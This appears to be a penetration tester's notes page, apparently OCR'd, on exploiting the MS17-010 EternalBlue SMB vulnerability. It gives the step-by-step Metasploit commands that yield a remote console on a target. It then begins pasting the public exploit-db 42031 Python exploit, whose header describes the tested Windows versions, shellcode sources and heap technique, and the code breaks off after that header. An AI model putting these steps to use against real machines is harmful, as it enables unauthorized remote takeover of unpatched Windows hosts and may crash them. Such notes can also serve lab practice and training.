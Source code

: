 ################# TLDR #################
!!!INCLUDE IN MSFCONSOLE!!!
## Do not run nc -lvnp. msf will start listener as part of process. 
1. use windows/smb/ms17_010_eternalblue
2. set RHOST {targetIP}
3. run
4. eventually receive console (took about 4 minutes to complete)

## MANUALLY ##
SOURCE: https://www.exploit-db.com/exploits/42031
1. Copy code from here
2. create local file on attack machine
3. paste contents in local file on attach machine

```

```python 
#!/usr/bin/python
from impacket import smb
from struct import pack
import sys
import socket

'''
EternalBlue exploit for Windows 7/2008 by sleepya
The exploit might FAIL and CRASH a target system (depended on what is overwritten)

EDB Note: Shellcode
- x64 ~ https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/42030.asm
- x86 ~ https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/42031.asm

Tested on:
- Windows 7 SP1 x64
- Windows 2008 R2 SP1 x64
- Windows 7 SP1 x86
- Windows 2008 SP1 x64
- Windows 2008 SP1 x86

Reference:
- http://blogs.360.cn/360safe/2017/04/17/nsa-eternalblue-smb/


Bug detail:
- For the buffer overflow bug detail, please see http://blogs.360.cn/360safe/2017/04/17/nsa-eternalblue-smb/
- The exploit also use other 2 bugs (see details in BUG.txt)
  - Send a large transaction with SMB_COM_NT_TRANSACT but processed as SMB_COM_TRANSACTION2 (requires for trigger bug)
  - Send special session setup command (SMB login command) to allocate big nonpaged pool (use for creating hole)
######


Exploit info:
- I do not reverse engineer any x86 binary so I do not know about exact offset.
- The exploit use heap of HAL (address 0xffffffffffd00010 on x64) for placing fake struct and shellcode.
  This memory page is executable on Windows 7 and Wndows 2008.
- The important part of feaList and fakeStruct is copied from NSA exploit which works on both x86 and x64.
```